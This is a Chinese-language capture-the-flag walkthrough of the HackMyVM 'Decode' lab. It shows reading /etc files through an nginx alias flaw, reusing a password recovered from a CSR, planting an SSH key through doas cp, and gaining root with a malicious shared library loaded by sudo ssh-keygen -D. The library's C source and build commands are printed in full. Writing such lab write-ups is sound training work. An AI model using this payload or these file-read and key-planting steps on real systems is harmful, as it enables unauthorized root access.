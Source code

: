 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_Decode","dg-path":"安全/靶机/hackmyvm_Decode.md","permalink":"/安全/靶机/hackmyvm_Decode/","dgPassFrontmatter":true}
---
```


# 主机发现

![Pasted image 20250128224741.png](/img/user/picture/Pasted%20image%2020250128224741.png)
两个端口服务显示`tcpwrapped`,应该是被防火墙拦了（或者是其他原因）

单独扫一下就出来了，可能是速率设置太高了？
![Pasted image 20250128225027.png](/img/user/picture/Pasted%20image%2020250128225027.png)
![Pasted image 20250128225304.png](/img/user/picture/Pasted%20image%2020250128225304.png)


# WEB渗透
主页没什么信息
![Pasted image 20250128225409.png](/img/user/picture/Pasted%20image%2020250128225409.png)

进行简单的目录扫描
```shell
sudo dirb http://192.168.124.14/
```
![Pasted image 20250128230152.png](/img/user/picture/Pasted%20image%2020250128230152.png)
`/robots.txt`
![Pasted image 20250128230218.png](/img/user/picture/Pasted%20image%2020250128230218.png)
里面有很多路径，但是有一些像是系统的路径而不是网页路径？

首先看一下`/decode/`,因为靶机就是交这个名字麻
![Pasted image 20250128230358.png](/img/user/picture/Pasted%20image%2020250128230358.png)
发现和主页很像，但是下面多了一个时间？
或许这个页面有一些隐藏参数？（我没测，因为发现了更有趣的）
![Pasted image 20250128230610.png](/img/user/picture/Pasted%20image%2020250128230610.png)
当我访问第一个的时候
![Pasted image 20250128230653.png](/img/user/picture/Pasted%20image%2020250128230653.png)
竟然能下载，所以我们就可以尝试一下`passwd`
因为passwd和crontab是在一个目录下
结果确实也可下载
![Pasted image 20250128230813.png](/img/user/picture/Pasted%20image%2020250128230813.png)
注意到有三个用户，其中有一个用户甚至给了加密密码
（这里要注意一下steve这个用户目录是`/usr/share`）
尝试破解：
好吧应该是爆破不出来


现在我们知道`/decode`目录应该是`/etc`这个目录，但是能不能返回上一目录呢
但其实我在这里就卡住了，看了看大佬的WP，知道确实可以返回去的
![Pasted image 20250128234204.png](/img/user/picture/Pasted%20image%2020250128234204.png)
可以看一下nginx的配置文件
```shell
curl http://192.168.124.14/decode/nginx/sites-enabled/default
```
是设置了一个别名
![Pasted image 20250129141423.png](/img/user/picture/Pasted%20image%2020250129141423.png)

`/decode`->`/etc/`
注意到前面少一个`/`



现在我们知道有三个用户，可以尝试读取一下敏感文件
```
steve
decoder
ajneya
```
![Pasted image 20250128234429.png](/img/user/picture/Pasted%20image%2020250128234429.png)
其余两个用户没有
![Pasted image 20250128234511.png](/img/user/picture/Pasted%20image%2020250128234511.png)


终于找到了关键信息：
![Pasted image 20250128234558.png](/img/user/picture/Pasted%20image%2020250128234558.png)

![Pasted image 20250128235050.png](/img/user/picture/Pasted%20image%2020250128235050.png)

手动解码一下：
```shell
openssl req -in example.csr -noout -text
```

```txt
Certificate Request:
    Data:
        Version: 1 (0x0)
        Subject: CN = HackMyVM, ST = decode, L = decode, O = HackMyVM
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:d9:d2:1b:db:c4:10:63:d1:80:30:3f:71:3e:8d:...
                    (省略部分，实际有更多内容)
                Exponent: 65537 (0x10001)
        Attributes:
            challengePassword        :i4mD3c0d3r
            Requested Extensions:
                X509v3 Key Usage: critical
                    Digital Signature, Key Encipherment
                X509v3 Extended Key Usage: critical
                    TLS Web Server Authentication, TLS Web Client Authentication
                X509v3 Subject Alternative Name:
                    DNS:hackmyvm.eu
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        3b:bd:d6:de:94:cc:a9:29:b6:03:7e:ef:7a:9b:91:e0:...
        (省略部分，实际有更多内容)
```
![Pasted image 20250129000316.png](/img/user/picture/Pasted%20image%2020250129000316.png)

这有一个密码`i4mD3c0d3r`,说实话不是很懂，但是是用户`steve`的密码。。。不懂
![Pasted image 20250129000422.png](/img/user/picture/Pasted%20image%2020250129000422.png)





# 提权-ajneya
![Pasted image 20250129000916.png](/img/user/picture/Pasted%20image%2020250129000916.png)
可以用decoder的身份运行，尝试了一下未果

用脚本跑了一下发现下面信息
![Pasted image 20250129113011.png](/img/user/picture/Pasted%20image%2020250129113011.png)
![Pasted image 20250129113147.png](/img/user/picture/Pasted%20image%2020250129113147.png)
看大佬的方法是将公钥cp到ajneya用户中的`.ssh/authorized_keys`中

![Pasted image 20250129114745.png](/img/user/picture/Pasted%20image%2020250129114745.png)
没有公钥的话可以先在攻击机上生成一下
```shell
ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

在靶机的/tmp目录中创建好cp过去就行了
```shell
doas -u ajneya cp -a /tmp/.ssh ./
```

![Pasted image 20250129114938.png](/img/user/picture/Pasted%20image%2020250129114938.png)


# 提权root

![Pasted image 20250129121648.png](/img/user/picture/Pasted%20image%2020250129121648.png)

我们可以用root身份执行下面命令
```shell
/usr/bin/ssh-keygen * /opt/*
```

![Pasted image 20250129121728.png](/img/user/picture/Pasted%20image%2020250129121728.png)
可以通过优先加载一个恶意库来实现提权
`pe.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```shell
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```
会生成一个恶意库`pe.so`


所以我们要运行的就是
```
sudo /usr/bin/ssh-keygen -D /opt/*/pe.so
```
现在主要问题就是opt目录下我们不可写

但是我们注意到
![Pasted image 20250129122148.png](/img/user/picture/Pasted%20image%2020250129122148.png)
这下面有一个decode目录
而`steve`可以用decode权限
![Pasted image 20250129122258.png](/img/user/picture/Pasted%20image%2020250129122258.png)

```shell
steve@decode:/tmp$cat pe.so | sudo -u decoder  /usr/bin/tee /opt/decode/pe.so
```

![Pasted image 20250129122509.png](/img/user/picture/Pasted%20image%2020250129122509.png)
成功




# 思路梳理

首先通过目录扫描发现web中目录`/decode`是连接到了服务器的`/etc/`，进而读到了passwd等文件
通过进一步测试或者通过获取nginx配置文件，发现漏洞，可以读到服务器是任意路径文件
从而在`steve`用户路径下读到bash_history，获取到可疑文件
从这个文件中获取到密码

现在获取到steve用户权限，通过脚本扫描发现具有`decoder`的tee权限、`ajneya`的cp权限
通过cp在ajneya目录中上传ssh公钥获取到其权限

ajneya具有root的`/usr/bin/ssh-keygen * /opt/*`权限
在结合steve的sudo权限进行提权





























